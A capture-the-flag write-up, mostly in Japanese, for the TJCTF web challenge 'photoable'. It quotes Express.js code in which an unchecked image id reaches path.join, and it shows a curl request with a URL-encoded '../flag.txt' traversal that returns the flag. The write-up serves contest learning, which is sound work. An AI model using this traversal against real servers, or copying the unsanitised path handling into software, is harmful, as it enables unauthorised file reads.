

# photoable:web:270pts
My games always play at like 3 fps, so I thought it'd be more efficient to send individual frames rather than videos. Anyways, I'm sure my website is unhackable, and that you are never gonna find the flag on my server!  
[photoable.tjc.tf](https://photoable.tjc.tf/)  

Downloads  
[server.zip](server.zip)  

# Solution
ソースとサイトが渡される。  
Photoable  
[site1.png](site/site1.png)  
  
  
画像をURLを指定することで、外部からアップロードできるようだ。  
jsで動いており、拡張子チェックも十分なためアップロードしたファイル経由でのRCEは難しそうだ。  
ソースを見るとファイルの読み取りは以下のようであった。  
```js
~~~
function getFileName(uuid) {
  let ext = uuid2ext[uuid] ?? "";
  return uuid + ext;
}
~~~
app.get("/image/:imageid", (req, res) => {
  let { imageid } = req.params;

  res.render("image", {
    imagelink: `photobucket/${getFileName(imageid)}`,
    image: imageid,
  });
});

app.get("/image/:imageid/download", (req, res) => {
  let { imageid } = req.params;

  res.sendFile(path.join(__dirname, `photobucket/${getFileName(imageid)}`));
});

app.listen(8080, async () => {
  fs.readFile("flag.txt", (err, data) => console.log(`Flag loaded!`));
});
```
同一ディレクトリにあるflag.txtを読み取ることを目標とする。  
`imageid`を`getFileName`へ渡しているが、`uuid2ext`に存在しない場合、拡張子が付加されずそのままの値が返ってくる。  
`path.join`であるため、`imageid`が`../flag.txt`でパストラバーサルが可能であることがわかる。  
以下のようなリクエストを投げる。  
```bash
$ curl https://photoable.tjc.tf/image/..%2fflag.txt/download
tjctf{1fram3_1fl4g}
```
flagが得られた。  

## tjctf{1fram3_1fl4g}